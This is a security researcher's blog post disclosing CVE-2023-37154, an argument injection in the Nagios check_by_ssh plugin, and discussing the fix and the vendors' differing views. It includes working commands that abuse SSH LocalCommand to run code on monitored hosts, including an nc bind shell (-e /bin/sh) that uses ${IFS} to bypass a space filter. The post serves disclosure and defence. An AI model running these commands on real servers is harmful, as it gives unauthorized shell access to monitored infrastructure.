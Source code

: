```yaml
---
layout: post
title: "Nagios Plugins: Hacking Monitored Servers with check_by_ssh and Argument Injection: CVE-2023-37154"
author: "Joshua Rogers"
categories: security
#tags: [security work life]
#image: cutting.jpg
---
```


Nagios-compatible systems are some of the most widely used infrastructure monitoring solutions. They use "plugins" to monitor server performance, with "Nagios Core" interpreting results. However, there's a potentially significant security issue with Nagios and its default plugins – they may be an effective backdoor to the monitored servers. Even with sysadmin restrictions on the user, it's possible to bypass these restrictions and achieve remote code execution.

In this blog post, we'll explore how Nagios can be used to execute arbitrary commands on servers with [nagios-plugins](https://github.com/nagios-plugins/nagios-plugins) or [monitoring-plugins/monitoring-plugins](https://github.com/monitoring-plugins/monitoring-plugins) installed, and how argument injection vulnerabilities can be abused to bypass restrictions on the nagios user's SSH access.

---

### Nagios: A Quick History.

"Nagios" was originally created in 1999, and is one of the world's most popular infrastructure monitoring solutions. Effectively, Nagios has two parts: its core system, and its plugin system. The core system connects remotely to the server it is monitoring, runs a "plugin", and then handles the response.

Nagios Core has under-gone various forks and clones in history, forming the basis for Naemon and Icinga, as well as op5, Shinken. Various projects have been created in peripheral to Nagios, such as Thruk and Nagios XI, which are web interfaces for the aforementioned core systems.

---

### Nagios Plugins

Nagios Plugins are small programs or scripts that perform the checks or tests on the host. These plugins can do practically anything: check connectivity to networks or services, check system statistics, perform tests on local or remote services, and so on. They are completely modular, so you can add plugins to monitor specific services for your environment easily: they simply must return an exit status code and some text that can be parsed by Nagios Core.

---

### Nagios Connection Methods

Again, it is important to note that the monitoring data is nearly always collected via a _pull_ method -- Nagios Core connects to the server being monitored, plugins are run, and data is collected. The connection is generally either using SSH, or NRPE (Nagios Remote Plugin Executor); the former using either SSH keys or credentials, and the latter of which _can_ be authenticated using a pre-defined SSL certificate.

The Nagios official documentation states that [SSH is more secure than NRPE](https://assets.nagios.com/downloads/nagioscore/docs/nrpe/NRPE.pdf). But is that completely true?

---

### Nagios Backdoor User

When you set up nagios-plugins on the _monitored_ host, you normally create a new user for the plugins to run. Just like other human users on the server, this user has access to a shell accessible via SSH.

If Nagios uses SSH to execute the plugins on the server, then, effectively, a backdoor account has been created: if you hack the private key from the Nagios Core server, then you can gain system access to every server being monitored. Seems bad, right?

In reality, people don't usually allow the Nagios user on their monitored servers unrestricted shell access. Instead, a wrapper script restricts the user to running only installed plugins. For example, a restriction on Nagios' SSH key in _authorized_keys_:
```
command="/var/nagios/wrapper.sh",no-port-forwarding,no-X11-forwarding,no-agent-forwarding,no-pty ssh-rsa [..ssh pubkey..]
```
could limit the user to running only plugins installed in _/usr/lib/nagios/plugins/_:
```
#!/bin/sh

case "$SSH_ORIGINAL_COMMAND" in
    check_[a-z]*)
        /usr/lib/nagios/plugins/$SSH_ORIGINAL_COMMAND
        ;;
    *)
        exit 1
        ;;
esac
```

This way, the only commands that can be executed via SSH must begin with the name of an installed plugin. At first glance, this is a practical solution to restricting this account to not act as a backdoor for anybody that is able to gain access to the Nagios server.

---

### Nagios Plugin Hacking

During a recent pentest, I was in this exact situation: I had hacked the Nagios Core server, and had the private key used to connect via SSH to thousands of servers being monitored via Nagios. However, I couldn't get a shell. Not straight away, at least.

Looking through the list of default installed plugins by the Debian package, I came across the _check_by_ssh_ plugin, which "uses SSH to execute commands on a remote host". That is to say, Nagios Core connects to a monitored server, and that monitored server then connects to a further system.

_check_by_ssh_ comes with a handy option to pass parameters to the ssh client when it is executed on the monitored server:
```
     -o, --ssh-option=OPTION
        Call ssh with '-o OPTION' (may be used multiple times) [optional]
```

Coincidently while I was performing this aforementioned pentest, I was also working on a website documenting different ways to achieve command execution using a vulnerability known as argument injection. On that website, I have a list of different ways that the ssh client can be abused to execute commands _locally_. Documented at [gtfoargs.github.io/gtfoargs/ssh](https://gtfoargs.github.io/gtfoargs/ssh/), I list the well-known _ProxyCommand_, _PermitLocalCommand_, and _LocalCommand_ options available in SSH, which will execute commands on the _client side_.

Effectively, _check_by_ssh_ will call _ssh(1)_, which will call _system(3)_ with user-supplied data.

Putting this all together, I realized that I could abuse this functionality to execute commands on the monitored system, using this _check_by_ssh_ plugin. Using the following commands, I could execute _uname_:
```
ssh -i nagios.key nagios@server 'check_by_ssh -H remote-server -l passwordlessuser -o PermitLocalCommand=yes -o LocalCommand="uname" -o StrictHostKeyChecking=no'
```

The monitored server would connect to remote-server using the passwordlessuser user successfully, and _uname_ would run on the monitored server itself. Due to either a limitation or bug in _check_by_ssh_, spaces did not work for the `-o` parameter of _check_by_ssh_.

The solution to this problem was to use `\${IFS}` in place of every space needed. As such, I came up with:
```
ssh -i nagios.key nagios@server "check_by_ssh -H remote-server -l passwordlressuser -v -o PermitLocalCommand=yes -o StrictHostKeyChecking=no -o LocalCommand=nc\${IFS}-l\${IFS}-p1337\${IFS}-e/bin/sh"
```
and was able to spawn a shell on port 1337.

---
### Discussion and Fix

Different providers of _nagios-plugins_ view this issue differently. The original [http://nagios-plugins.org/](http://nagios-plugins.org/) considers this an issue and has fixed it in [this commit](https://github.com/nagios-plugins/nagios-plugins/commit/e8810de21be80148562b7e0168b0a62aeedffde6). [monitoring-plugins](https://github.com/monitoring-plugins/monitoring-plugins), which provides _nagios-plugins_ for Ubuntu and Debian, do not consider this an issue, and they conclude that while the execution of arbitrary commands by _check_by_ssh_ is not well known, there may be legitimate reason to support the functionality afforded by _ssh(1)_. In the former case, CVE-2023-37154 was assigned to the issue.

There is of course another discussion of how much responsibility lays on the sysadmins monitoring these systems. Other than abusing this functionality in _check_by_ssh_, the _negate_ plugin can also arbitrarily run commands by design:
```
# ./negate --help
[..]
Negates the status of a plugin (returns OK for CRITICAL and vice-versa).
Additional switches can be used to control which state becomes what.

# ./negate '/bin/uname -a'
Linux security 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64 GNU/Linux
```

However, even if a sysadmin installs only the plugins they need, there is an unknown factor of whether the plugins may _possibly_ execute arbitrary commands on the host themself.

The aforementioned NRPE (which is now deprecated) recommended using predefined lists of commands which the plugins on the servers would run. In order to parse user-defined arguments, one must specifically configure `dont_blame_nrpe=1`. That may be the most secure method for SSH too.

---
### Conclusion


In the world of security, it is the weakest link that an attacker should focus their attention on. Whether it be physical or digital, a server or a service; if an attacker is able to compromise a link that is imperative to the overall chain, then the whole chain falls. Monitoring systems are often neglected in terms of security despite their wide-reaching access. If you can take the Nagios server, you can take over the whole farm.
